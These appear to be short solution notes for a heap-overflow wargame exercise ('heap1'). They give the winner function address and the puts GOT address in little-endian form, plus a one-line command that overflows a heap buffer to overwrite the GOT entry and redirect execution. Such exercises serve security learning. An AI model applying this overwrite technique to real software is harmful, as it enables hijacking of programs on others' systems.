 winner: 0x0804849a
needed: 9a 84 04 08


puts address: 0x08049774
needed: 74 97 04 08

./heap1 $(python -c "print('A'*20 + '\x74\x97\x04\x08')") $(python -c "print('\x9a\x84\x04\x08')")

